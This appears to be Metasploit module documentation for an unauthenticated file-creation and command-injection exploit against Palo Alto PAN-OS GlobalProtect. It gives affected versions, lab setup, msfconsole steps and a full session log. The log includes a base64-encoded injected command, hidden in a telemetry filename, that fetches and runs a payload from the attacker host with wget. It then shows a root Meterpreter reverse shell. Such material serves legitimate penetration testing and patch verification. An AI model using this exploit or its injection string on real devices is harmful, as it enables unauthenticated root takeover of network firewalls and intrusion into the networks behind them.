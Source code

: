 ## Vulnerable Application
This module exploits two vulnerabilities in Palo Alto Networks PAN-OS that
allow an unauthenticated attacker to create arbitrarily named files and execute
shell commands. Configuration requirements are PAN-OS with GlobalProtect Gateway or
GlobalProtect Portal enabled and telemetry collection on (default). Affected versions
include < 11.1.0-h3, < 11.1.1-h1, < 11.1.2-h3, < 11.0.2-h4, < 11.0.3-h10, < 11.0.4-h1,
< 10.2.5-h6, < 10.2.6-h3, < 10.2.8-h3, and < 10.2.9-h1. Payloads may take up to
one hour to execute, depending on how often the telemetry service is set to run.

For a technical analysis of the vulnerability, read our [Rapid7 Analysis](https://attackerkb.com/topics/SSTk336Tmf/cve-2024-3400/rapid7-analysis).

## Testing
Boot a vulnerable PAN-OS VM or device, then authenticate to the management web service with default credentials. From the
web dashboard, configure a GlobalProtect [Portal](https://docs.paloaltonetworks.com/globalprotect/10-1/globalprotect-admin/globalprotect-portals/set-up-access-to-the-globalprotect-portal)
and/or [Gateway](https://docs.paloaltonetworks.com/globalprotect/10-1/globalprotect-admin/globalprotect-gateways/configure-a-globalprotect-gateway).
With either or both started, the `gpsvc` service will begin serving an HTTPS service on port 443 for the second
network interface. Confirm that the web service presents a Palo Alto Networks login page when viewed. This web application
is the target of the exploit, and the '/global-protect/login.esp' page should be accessible.

The exploit has been tested against PAN-OS 10.2.9, and it should also be effective against other similarly-configured 10.2, 11.0,
and 11.1 versions.

## Verification Steps

1. Start msfconsole
2. `use exploit/linux/http/panos_telemetry_cmd_exec`
3. `set RHOST <TARGET_IP_ADDRESS>`
4. `set payload cmd/linux/http/x64/meterpreter_reverse_tcp`
5. `set LHOST eth0`
6. `check`
7. `exploit`

## Scenarios

### Linux Command

Note: Ensure the target is vulnerable to unauthenticated file creation with the `check` command.

Note: Since it can take up to one hour to establish code execution, the listener should be left running for that period.

```
msf6 > use exploit/linux/http/panos_telemetry_cmd_exec
[*] Using configured payload cmd/linux/http/x64/meterpreter_reverse_tcp
msf6 exploit(linux/http/panos_telemetry_cmd_exec) > show options

Module options (exploit/linux/http/panos_telemetry_cmd_exec):

   Name       Current Setting            Required  Description
   ----       ---------------            --------  -----------
   Proxies                               no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                                yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      443                        yes       The target port (TCP)
   SSL        true                       no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /global-protect/login.esp  yes       An existing web application endpoint
   VHOST                                 no        HTTP server virtual host


Payload options (cmd/linux/http/x64/meterpreter_reverse_tcp):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   FETCH_COMMAND       WGET             yes       Command to fetch payload (Accepted: CURL, FTP, TFTP, TNFTP, WGET)
   FETCH_DELETE        false            yes       Attempt to delete the binary after execution
   FETCH_FILENAME      EkcxbboZMyD      no        Name to use on remote system when storing payload; cannot contain spaces or slashes
   FETCH_SRVHOST                        no        Local IP to use for serving payload
   FETCH_SRVPORT       8080             yes       Local port to use for serving payload
   FETCH_URIPATH                        no        Local URI to use for serving payload
   FETCH_WRITABLE_DIR  /var/tmp         yes       Remote writable dir to store payload; cannot contain spaces
   LHOST                                yes       The listen address (an interface may be specified)
   LPORT               4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Default



View the full module info with the info, or info -d command.

msf6 exploit(linux/http/panos_telemetry_cmd_exec) > set RHOSTS 192.168.50.226
RHOSTS => 192.168.50.226
msf6 exploit(linux/http/panos_telemetry_cmd_exec) > set LHOST 192.168.50.25
LHOST => 192.168.50.25
msf6 exploit(linux/http/panos_telemetry_cmd_exec) > set LPORT 8585
LPORT => 8585
msf6 exploit(linux/http/panos_telemetry_cmd_exec) > check
[+] 192.168.50.226:443 - The target is vulnerable. Arbitrary file write succeeded: /var/appweb/sslvpndocs/global-protect/portal/fonts/glyphicons-ipteqmbl-regular.woff2 NOTE: This file will not be deleted
msf6 exploit(linux/http/panos_telemetry_cmd_exec) > exploit

[*] Started reverse TCP handler on 192.168.50.25:8585 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. Arbitrary file write succeeded: /var/appweb/sslvpndocs/global-protect/portal/fonts/glyphicons-ikxrpbmq-regular.woff2 NOTE: This file will not be deleted
[*] Depending on the PAN-OS version, it may take the telemetry service up to one hour to execute the payload
[*] Though exploitation of the arbitrary file creation vulnerability succeeded, command injection will fail if the default telemetry service has been disabled
[*] Meterpreter session 1 opened (192.168.50.25:8585 -> 192.168.50.216:48310) at 2024-04-18 14:53:09 -0500
[!] This exploit may require manual cleanup of '/opt/panlogs/tmp/device_telemetry/minute/lyne`echo${IFS}-n${IFS}d2dldCAtcU8gL3Zhci90bXAvdWdWZlhXUnhWIGh0dHA6Ly8xOTIuMTY4LjUwLjI1OjgwODAvcUpPXzJ2MUFPVkRIc2hsVVIyRHVzQTsgY2htb2QgK3ggL3Zhci90bXAvdWdWZlhXUnhWOyAvdmFyL3RtcC91Z1ZmWFdSeFYgJg==|base64${IFS}-d|bash${IFS}-`' on the target

meterpreter > getuid 
Server username: root
meterpreter > sysinfo 
Computer     : 192.168.50.216
OS           : CentOS 8.3.2011 (Linux 4.18.0-240.1.1.20.pan.x86_64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > 
```